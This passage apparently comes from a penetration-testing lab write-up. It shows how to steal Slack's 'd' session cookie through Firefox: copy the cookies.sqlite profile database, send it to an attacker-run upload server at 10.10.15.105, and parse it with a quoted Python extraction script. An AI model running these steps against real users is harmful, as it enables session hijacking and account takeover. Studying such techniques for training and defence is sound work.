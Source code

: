 ```powershell
$CurrentTime = $timer.Elapsed
write-host -ForegroundColor Green $([string]::Format("`nDONE! Run Time: {0:d2}:{1:d2}:{2:d2}",
        $CurrentTime.hours, 
        $CurrentTime.minutes, 
        $CurrentTime.seconds)) -nonewline

}
```

Their research discusses the cookie named `d`, which `Slack` uses to store the user's authentication token. If we can get our hands on that cookie, we will be able to authenticate as the user.



### Cookie Extraction from Firefox with cookieextractor.py

```powershell
# Copy Firefox Cookies Database
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```

Now we use PSUpload.ps1 to download the file to our attacking machine. We set up the uploader server in our kali:

```
python -m uploadserver
```

And from the host target machine:

```
Invoke-FileUpload -Uri http://10.10.15.105:8000/upload -File c:\Users\Grace\Desktop\cookies.sqlite
```

Now that we have the file cookies.sqlite, we use the Python script [cookieextractor.py](https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py) to extract cookies from the Firefox cookies:

The script:

```python
#!/usr/bin/env python3
# Sample Script to extract cookies offile from FireFox sqlite database 
# Created by PlainText 

import argparse
import sqlite3

def main(dbpath, host, cookie):
	conn = sqlite3.connect(dbpath)
	cursor = conn.cursor()

	if (host == "" and cookie == ""):
		query = "SELECT * FROM moz_cookies"
	elif (host != "" and cookie == ""):
		query = "SELECT * FROM moz_cookies WHERE host LIKE '%{}%'".format(host)
	elif (host == "" and cookie != ""):
		query = "SELECT * FROM moz_cookies WHERE name LIKE '%{}%'".format(cookie)
	elif (host != "" and cookie != ""):
		query = "SELECT * FROM moz_cookies WHERE name LIKE '%{}%' AND host LIKE '%{}%'".format(cookie, host)

	cursor.execute(query)
	records = cursor.fetchall()
	rowCount = len(records) 

	if (rowCount > 0):
		for row in records:
			print(row)
```